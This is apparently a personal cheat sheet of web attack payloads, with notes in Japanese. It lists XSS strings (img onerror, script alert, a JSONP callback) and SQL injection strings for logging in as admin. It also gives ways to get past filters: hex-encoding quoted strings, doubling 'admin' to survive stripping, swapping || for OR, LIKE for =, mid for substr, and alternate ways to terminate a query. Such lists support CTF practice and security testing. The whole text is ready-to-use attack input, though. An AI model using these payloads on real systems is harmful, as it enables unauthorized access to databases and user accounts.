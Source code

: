 - \<img src="XSS" onerror="alert('XSS')">
- \'>\<script>alert()\</script>`
- \`3')||alert('a
- http://www.google.com/jsapi?callback=alert

# sqli
- 'OR'1'='1
- ' union select 'admin' #
- ?id=admin%27%23　こんな風にURLエンコすること
- クオート禁止→ hex
    - ?no=1' or id='admin'#　もと
    - ?no=0+or+id=0x61646d696e　hex
- adminが消される：adadminmin
- or, and禁止：||, &&
- admin禁止：ADMIN
- =禁止：like, not in, in, between
- substr禁止：mid
- sqliteなら -- か /* でコメント、｜｜はORではなく結合
    - 'ad'||'min'
- コメント一式が封じらえているとき
    - ; で終わらせる
    - order by や group by で終らせておく
